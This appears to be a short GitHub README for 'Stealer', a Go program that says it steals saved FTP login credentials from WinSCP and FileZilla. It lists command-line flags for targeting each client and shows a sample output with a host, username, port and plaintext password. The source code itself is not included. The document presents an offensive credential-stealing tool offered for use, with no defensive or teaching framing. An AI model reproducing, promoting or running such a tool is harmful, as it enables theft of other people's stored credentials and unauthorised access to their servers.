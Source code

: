 # Stealer

Go program to steal Login credentials of FTP Client.

### Usage

```go
go run main.go -w true // to steal WinSCP FTP Creds
go run main.go -f true // to steal FileZilla FTP Creds
```

### Sample Output

```
Host:		 ftpupload.net
User:		 ricknroll
Port:		 21
Password:	 "pass1212"
```
